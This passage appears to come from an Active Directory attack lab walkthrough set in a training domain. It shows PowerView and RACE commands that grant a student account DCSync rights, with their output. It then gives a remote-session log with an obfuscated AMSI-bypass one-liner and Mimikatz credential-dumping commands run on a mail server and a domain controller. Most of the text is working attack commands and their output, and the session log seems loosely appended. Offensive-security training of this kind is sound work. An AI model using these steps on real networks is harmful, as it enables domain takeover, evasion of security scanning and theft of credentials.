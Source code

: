 In the new process, we can use both PowerView or AD Module with `RACE.ps1`.

**PowerView**

```
C:\Windows\system32>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

PS C:\Windows\system32> Import-Module C:\AD\Tools\PowerView.ps1

PS C:\Windows\system32> Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser51 -Rights DCSync -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose

[SNIP]

VERBOSE: [Add-DomainObjectAcl] Granting principal CN=studentuser51,CN=Users,DC=us,DC=techcorp,DC=local 'DCSync' on
DC=us,DC=techcorp,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=studentuser51,CN=Users,DC=us,DC=techcorp,DC=local rights GUID
'1131f6aa-9c07-11d1-f79f-00c04fc2dcd2' on DC=us,DC=techcorp,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=studentuser51,CN=Users,DC=us,DC=techcorp,DC=local rights GUID
'1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' on DC=us,DC=techcorp,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=studentuser51,CN=Users,DC=us,DC=techcorp,DC=local rights GUID
'89e95b76-444d-4c62-991a-0facbeda640c' on DC=us,DC=techcorp,DC=local
```

**AD Module with RACE.ps1**

```
C:\Windows\system32>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

PS C:\AD\Tools> Import-Module C:\AD\Tools\RACE-master\RACE.ps1

PS C:\AD\Tools> Set-ADACL -DistinguishedName 'DC=us,DC=techcorp,DC=local' -SamAccountName studentuser51 -GUIDRight DCSync -Verbose

[SNIP]

VERBOSE: Setting ACL for "DC=us,DC=techcorp,DC=local" for "studentuser51" to use "DCSync" right.
```

Let's check for the rights once again from a normal shell.

```
PS C:\Windows\system32> Get-DomainObjectAcl -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser51"}

[SNIP]

AceQualifier           : AccessAllowed
ObjectDN               : DC=us,DC=techcorp,DC=local
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-In-Filtered-Set 🔐
ObjectSID              : S-1-5-21-210670787-2521448726-163245708
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
```

[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'